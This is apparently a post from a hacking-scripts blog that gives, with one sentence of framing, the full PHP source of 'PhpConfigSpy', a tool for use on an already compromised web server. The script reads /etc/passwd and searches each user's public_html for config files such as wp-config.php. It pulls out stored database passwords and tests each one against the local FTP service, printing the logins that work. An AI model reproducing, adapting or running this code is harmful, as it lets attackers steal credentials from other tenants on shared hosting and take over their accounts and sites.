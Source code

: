 ```yaml
---
id: 187
title: PhpConfigSpy
author: admin
layout: post
guid: http://hackingscripts.com/?p=187
permalink: /phpconfigspy/
categories:
  - PHP
tags:
  - PHP
  - PhpConfigSpy
---
```

This script appears to try to obtain login details for a compromised server.

### PhpConfigSpy Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php 
echo "&lt;html&gt;"; 
echo "&lt;title&gt;PhpConfigSpy v0.1&lt;/title&gt;&lt;body&gt;"; 

set_time_limit(0); 
########################### 
@$passwd=fopen('/etc/passwd','r'); 
if (!$passwd) { 
  echo "[-] Error : coudn't read /etc/passwd"; 
  exit; 
} 
$path_to_public=array(); 
$users=array(); 
$pathtoconf=array(); 
$i=0; 

while(!feof($passwd)) { 
$str=fgets($passwd); 
if ($i&gt;35) { 
   $pos=strpos($str,":"); 
   $username=substr($str,0,$pos); 
   $dirz="/home/$username/public_html/"; 
   if (($username!="")) { 
       if (is_readable($dirz)) { 
           array_push($users,$username); 
           array_push($path_to_public,$dirz); 
       } 
   } 
} 
$i++; 
} 
############################ 

##################################### 
echo "&lt;br&gt;&lt;br&gt;"; 
echo "&lt;textarea name='main_window' cols=100 rows=20&gt;"; 

echo "[+] Founded ".sizeof($users)." entrys in /etc/passwd\n"; 
echo "[+] Founded ".sizeof($path_to_public)." readable public_html directories\n"; 

echo "[~] Searching for passwords in config.* files...\n\n"; 
foreach ($users as $user) { 
       $path="/home/$user/public_html/"; 
       read_dir($path,$user); 
} 

echo "\n[+] Done\n"; 

function read_dir($path,$username) { 
   if ($handle = opendir($path)) { 
       while (false !== ($file = readdir($handle))) { 
             $fpath="$path$file"; 
             if (($file!='.') and ($file!='..')) { 
                if (is_readable($fpath)) { 
                   $dr="$fpath/"; 
                   if (is_dir($dr)) { 
                      read_dir($dr,$username); 
                   } 
                   else { 
                        if (($file=='config.php') or ($file=='config.inc.php') or ($file=='db.inc.php') or ($file=='connect.php') or ($file=='wp-config.php') or ($file=='var.php') or ($file=='configure.php') or ($file=='db.php') or ($file=='db_connect.php')) { 
                           $pass=get_pass($fpath); 
                           if ($pass!='') { 
                              echo "[+] $fpath\n$pass\n"; 
                              ftp_check($username,$pass); 
                           } 
                        } 
                   } 
                } 
             } 
       } 
   } 
} 

function get_pass($link) { 
   @$config=fopen($link,'r'); 
   while(!feof($config)) { 
       $line=fgets($config); 
       if (strstr($line,'pass') or strstr($line,'password') or strstr($line,'passwd')) { 
           if (strrpos($line,'"')) 
              $pass=substr($line,(strpos($line,'=')+3),(strrpos($line,'"')-(strpos($line,'=')+3))); 
           else 
              $pass=substr($line,(strpos($line,'=')+3),(strrpos($line,"'")-(strpos($line,'=')+3))); 
           return $pass; 
       } 
   } 
} 

function ftp_check($login,$pass) { 
    @$ftp=ftp_connect('127.0.0.1'); 
    if ($ftp) { 
       @$res=ftp_login($ftp,$login,$pass); 
       if ($res) { 
          echo '[FTP] '.$login.':'.$pass."  Success\n"; 
       } 
       else ftp_quit($ftp); 
    } 
} 

echo "&lt;/textarea&gt;&lt;br&gt;"; 

echo "&lt;/body&gt;&lt;/html&gt;"; 
?&gt;
</pre>